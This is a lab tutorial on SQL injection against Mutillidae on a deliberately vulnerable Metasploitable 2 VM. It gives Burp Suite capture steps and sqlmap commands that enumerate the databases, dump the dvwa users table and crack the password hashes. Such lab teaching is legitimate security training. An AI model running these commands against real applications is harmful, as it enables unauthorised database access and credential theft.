

= SQL Injection with SQLmap
Author: Jake Kirsten

== Intro

We are going to be attacking a database with an SQL injection to retrieve passwords, and root access.

== Prerequisites

* Kali
* Metasploitable 2

== Setup

. turn on metasploitable and kali linux
. set the IP address on metasploit to 192.168.2.50/24
+
```
sudo ifconfig eth0 192.168.2.50 netmask 255.255.255.0
```
. Set the IP address on Kali Linux to 192.168.2.10/24 in settings or through the command line as shown:
+
```
sudo ifconfig 192.168.2.10 netmask 255.255.255.0
```
+
image::KaliIP.png[]
. Verify metasploitable 2 is running by going to 192.168.2.50 with firefox in Kali:
+

. Head over to the Mutillidae Login Page
+
image::MultLogin.png[]
. Minimize Firefox, but stay on the login page
. Open Burp Suite, and head over to the Proxy Tab and verify your settings match these:
+
image::BurpSettings.png[]

== Instructions
. Open the HTTP tab in Burp suite and minimize
. Your firefox should also still be minimized, open it up and set the proxy to port 8080 in settings as shown:
+

. Attempt a login with any username and password
+
Nothing will happen in Firefox, but there will be a post captured in Burpsuite as shown:
Save the RAW data to your root folder in .txt format
+
image::BurpPost.png[]
+
. Once this is saved we may now start our SQL injection.
. Open a terminal and type in:
+
```
sqlmap -r sqlinj.txt -p username
```
We are doing this to find out what type of Database the web application is using.
. We find out that it is running MySQL, which gives us information on what to add to our commands in SQLmap
+

. Now that we have more information add it to the command with this command:
```
sqlmap -r sqlinj.txt -p username --dbms mysql --dbs
```
This shows us the databases on their server
. next step will be choosing a database to exploit, we will be choosing dvwa. Use the command below:
```
sqlmap -r sqlinj.txt -p username --dbms mysql -D dvwa --tables
```
The result from the above command will output the tables in that database

. next step will be entering the users table
```
sqlmap -r sqlinj.txt -p username --dbms mysql -D dvwa -T users --dump
```
. you will come to this screenshot:

Of course we want to store them into a temp file to break the hash! Hit Y on both promps, attack them with a dictionary based attack! 

This should be the result:
+
